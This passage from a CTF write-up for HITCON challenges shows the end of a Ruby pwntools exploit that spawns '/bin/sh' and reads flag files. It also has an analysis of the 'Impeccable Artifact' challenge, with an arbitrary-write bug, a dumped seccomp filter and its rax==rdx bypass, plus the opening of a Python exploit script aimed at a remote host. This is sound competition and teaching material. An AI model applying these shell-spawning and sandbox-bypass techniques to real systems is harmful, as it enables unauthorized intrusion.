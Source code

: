 ```Ruby

r.sendline "exit\n\x00\x00\x00/bin/sh\x00"
sleep(1)

r.sendline "cat /home/*/flag"
print r.recv(2000)
```
`hitcon{thanks_for_using_pwntools-ruby:D}`

### 完美無瑕 ~Impeccable Artifact~
* Arbitary write, didn't check the array index bondary.
* Canary, NX, PIE enabled and Full RELRO.
* Only some syscall are allowed. 
* However, if rax == rdx, the syscall is still allowed (line 0014).
* Perform ORW to get the flag.

Seccomp Rules:
```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x10 0xc000003e  if (A != ARCH_X86_64) goto 0018
 0002: 0x20 0x00 0x00 0x00000020  A = args[2]
 0003: 0x07 0x00 0x00 0x00000000  X = A
 0004: 0x20 0x00 0x00 0x00000000  A = sys_number
 0005: 0x15 0x0d 0x00 0x00000000  if (A == read) goto 0019
 0006: 0x15 0x0c 0x00 0x00000001  if (A == write) goto 0019
 0007: 0x15 0x0b 0x00 0x00000005  if (A == fstat) goto 0019
 0008: 0x15 0x0a 0x00 0x00000008  if (A == lseek) goto 0019
 0009: 0x15 0x01 0x00 0x00000009  if (A == mmap) goto 0011
 0010: 0x15 0x00 0x03 0x0000000a  if (A != mprotect) goto 0014
 0011: 0x87 0x00 0x00 0x00000000  A = X
 0012: 0x54 0x00 0x00 0x00000001  A &= 0x1
 0013: 0x15 0x04 0x05 0x00000001  if (A == 1) goto 0018 else goto 0019
 0014: 0x1d 0x04 0x00 0x0000000b  if (A == X) goto 0019
 0015: 0x15 0x03 0x00 0x0000000c  if (A == brk) goto 0019
 0016: 0x15 0x02 0x00 0x0000003c  if (A == exit) goto 0019
 0017: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0019
 0018: 0x06 0x00 0x00 0x00000000  return KILL
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```
Solution
```python
#!/usr/bin/env python

from pwn import *

host = '52.192.178.153'
port = 31337

# r = remote('127.0.0.1', port)
r = remote(host, port)

def menu():
    r.recvuntil('?\n')

def cmd(num):
    r.sendline(str(num))

def show(num):
    cmd(1)
    r.sendline(str(num))
    r.recvuntil("Here it is: ")
    ret = r.recvline()[:-1]
```